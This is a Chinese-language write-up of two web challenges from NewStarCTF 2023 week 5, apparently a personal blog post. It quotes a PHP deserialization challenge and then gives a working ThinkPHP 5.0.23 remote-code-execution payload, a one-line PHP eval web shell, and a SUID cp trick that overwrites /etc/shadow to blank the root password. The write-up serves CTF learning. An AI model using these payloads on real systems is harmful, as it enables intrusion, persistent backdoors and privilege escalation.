 ```yaml
---
title: NewStarCTF2023 week5 web前两题
date: 2023-10-30 16:48 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /
---
```




## Unserialize Again

源题目内容

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 
```

题目这里的考点应该 phar 反序列化，但是可能出题人出的不够严谨，这里出现了非预期

非预期可以直接命令执行，获取flag

![Unserialize Again_非预期exp](Unserialize Again_非预期exp.jpg)

![Unserialize Again_非预期结果](Unserialize Again_非预期结果.jpg)



## Final

一个thinkphp 5.0.23，存在命令执行漏洞。

过滤了 system（phpinfo 可以正常执行），之后是低权

```
_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```



![image-20231030131251182](assets/image-20231030131251182.png)

payload：

```
GET
/index.php?s=captcha
POST
_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=id
```

写马 进行提权，后面使用哥斯拉 超级终端。

```
echo '<?php @eval($_POST[12]); ?>' > 1.php
```

查看suid 存在cp，我们可以直接cp shadow 查看 root 密码，这里的root 没有显示密码，我们直接修改shadow 

![image-20231030162316084](assets/image-20231030162316084.png)

![image-20231030164151705](assets/image-20231030164151705.png)



cp suid payload

```
LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

直接copy 到命令行

```
# root:*:17847:0:99999:7:::

LFILE=/etc/shadow
echo "root::17847:0:99999:7:::" | /bin/cp /dev/stdin "$LFILE"

su root
cat /flag*
```

![image-20231030164051944](assets/image-20231030164051944.png)
